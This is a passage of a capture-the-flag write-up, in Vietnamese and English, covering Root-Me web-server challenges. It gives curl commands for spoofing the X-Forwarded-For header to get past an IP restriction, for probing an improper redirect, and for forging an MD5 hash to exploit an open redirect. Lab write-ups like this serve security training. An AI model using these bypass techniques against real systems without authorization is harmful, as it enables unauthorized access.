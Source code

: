     - GET http://challenge01.root-me.org/web-serveur/ch5/ --> ở response trả về có 1 head Header-RootMe-Admin: no
    - For this run curl --header "Header-RootMe-Admin: no" http://challenge01.root-me.org/web-serveur/ch5/
    - Copy the flag from the response

## [HTTP - IP restriction bypass](https://www.root-me.org/en/Challenges/Web-Server/HTTP-IP-restriction-bypass)

### Steps to reproduce

    - Your IP do not belong to the LAN. --> tìm cách thay đổi ip
    - Một số header quan trọng trong LAN `X-Forwarded-For`: thường có trong proxy nội bộ để ghi lại IP client.
    - Run curl -k http://challenge01.root-me.org/web-serveur/ch68/ -H "X-Forwarded-For: 'your_ipv4_address'"
    - Copy the flag from the response

## [HTTP - Improper redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Improper-redirect)

### Steps to reproduce

    - Don’t trust your browser  --> curl -v --> Mục tiêu truy cập index
    - Run curl -v http://challenge01.root-me.org/web-serveur/ch32/login.php?redirect  --> login form
    - Run curl -v http://challenge01.root-me.org/web-serveur/ch32/index.html --> 404
    - Run curl -v http://challenge01.root-me.org/web-serveur/ch32/index.php --> 200
    - Copy the flag from the response

## [HTTP - Open redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

### Steps to reproduce

    - Find a way to make a redirection to a domain other than those showed on the web page.
    - http://challenge01.root-me.org/web-serveur/ch52/?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134  --> before
    - Run http://challenge01.root-me.org/web-serveur/ch52/?url=https://google.com&h=a023cfbf5f1c39bdf8407f28b60cd134  --> error Incorrect hash!
    - MD5 hash any site e.g. google.com
    - Run a get curl for http://challenge01.root-me.org/web-serveur/ch52/ with url param set to the site and h param set to the hash
    - Run http://challenge01.root-me.org/web-serveur/ch52/?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f  --> done
    - Copy the flag from the response

## [HTTP - POST](https://www.root-me.org/en/Challenges/Web-Server/HTTP-POST)
